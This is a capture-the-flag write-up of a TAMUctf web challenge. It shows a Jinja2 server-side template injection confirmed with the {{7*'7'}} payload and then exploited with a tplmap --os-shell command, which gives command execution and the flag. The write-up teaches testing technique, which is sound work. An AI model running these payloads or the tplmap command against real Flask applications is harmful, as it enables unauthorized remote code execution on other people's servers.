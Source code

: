 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

<code>
POST /science HTTP/1.1 <br />  
Host: web3.tamuctf.com <br />  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 <br />  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 <br />  
Accept-Language: en-US,en;q=0.5 <br />  
Accept-Encoding: gzip, deflate <br />  
Referer: http://web3.tamuctf.com/ <br />  
Content-Type: application/x-www-form-urlencoded <br />  
Content-Length: 15 <br />  
Connection: close <br />  
Upgrade-Insecure-Requests: 1 <br />  

chem1=a&chem2=b <br />  


HTTP/1.1 200 OK <br />  
Server: nginx/1.15.8 <br />  
Date: Mon, 04 Mar 2019 13:33:53 GMT <br />  
Content-Type: text/html; charset=utf-8 <br />  
Content-Length: 272 <br />  
Connection: close <br />  

\<html>
        \<div style="text-align:center"> <br />  
        \<h3>The result of combining a and b is:\</h3>\</br> <br />  
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div> <br />  
        \</html>
</code>


Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}} <br />  
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is: <br />  
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell <br />  
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5 <br />  
        
    Automatic Server-Side Template Injection Detection and Exploitation Tool <br />  
    

[+] Testing if POST parameter 'chem1' is injectable <br />  

[+] Jinja2 plugin is testing rendering with tag '{{*}}' <br />  

[+] Jinja2 plugin has confirmed injection with tag '{{*}}' <br />  

[+] Tplmap identified the following injection point: <br />  


  POST parameter: chem1 <br />  
  
  Engine: Jinja2 <br />  
  
  Injection: {{*}} <br />  
  
  Context: text <br />  
  
  OS: posix-linux2 <br />  
  
  Technique: render <br />  
  
  Capabilities: <br />  

   Shell command execution: ok <br />  
   
   Bind and reverse shell: ok <br />  
   
   File write: ok <br />  
   
   File read: ok <br />  
   
   Code evaluation: ok, python code <br />  

[+] Run commands on the operating system. <br />  

posix-linux2 $ ls <br />  

config.py <br />  

entry.sh <br />  

flag.txt <br />  

requirements.txt <br />  

serve.py <br />  

tamuctf <br />  

posix-linux2 $ cat flag.txt <br />  

gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} <br />  

</code>
